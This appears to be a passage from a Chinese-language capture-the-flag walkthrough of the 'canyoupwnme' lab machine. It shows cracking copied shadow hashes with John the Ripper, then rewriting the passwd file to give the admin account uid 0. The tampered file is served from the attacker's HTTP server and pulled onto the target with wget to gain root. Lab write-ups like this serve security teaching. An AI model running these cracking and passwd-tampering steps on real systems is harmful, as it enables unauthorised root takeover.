 然后复制 shadow 文件到本机，用 john 来破解

```zsh
➜  ~ john shadow
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (admin)
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
resu             (user)
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
2g 0:00:00:17 33.62% 2/3 (ETA: 13:37:38) 0.1174g/s 3439p/s 3439c/s 3439C/s blazer0..copper0
Proceeding with incremental:ASCII
```

好吧、虽然知道了 admin 和 resu 的密码，但毕竟还是不知道 root 的

但可以用 admin 当跳板,用同样的方法，修改 passwd 文件，将 admin 的 uid 和 gid 都替换为 0、然后在本地搭建一个 http 服务，把 passwd 文件传送给靶机。

Nodejs 简易的 http 服务：

```zsh
promote at ~ ❯ http-server .
Starting up http-server, serving .
Available on:
  http://127.0.0.1:8080
  http://10.32.187.196:8080
  http://192.168.56.1:8080
  http://10.211.55.2:8080
  http://192.168.57.2:8080
Hit CTRL-C to stop the server
[2020-08-19T05:50:16.269Z]  "GET /" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36"
(node:84873) [DEP0066] DeprecationWarning: OutgoingMessage.prototype._headers is deprecated
[2020-08-19T05:50:16.602Z]  "GET /favicon.ico" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36"
[2020-08-19T05:50:16.603Z]  "GET /favicon.ico" Error (404): "Not found"
[2020-08-19T05:50:37.045Z]  "GET /passwd" "Wget/1.15 (linux-gnu)"
[2020-08-19T05:51:02.060Z]  "GET /passwd" "Wget/1.15 (linux-gnu)"
```

拿下 root 权限：

```zsh
www-data@canyoupwnme:/bin$ cd /tmp
cd /tmp
www-data@canyoupwnme:/tmp$ wget http://192.168.56.1:8080/passwd
wget http://192.168.56.1:8080/passwd
--2020-08-19 08:51:00--  http://192.168.56.1:8080/passwd
Connecting to 192.168.56.1:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1439 (1.4K) [application/octet-stream]
Saving to: 'passwd'

100%[======================================>] 1,439       --.-K/s   in 0s

2020-08-19 08:51:00 (64.0 MB/s) - 'passwd' saved [1439/1439]

```
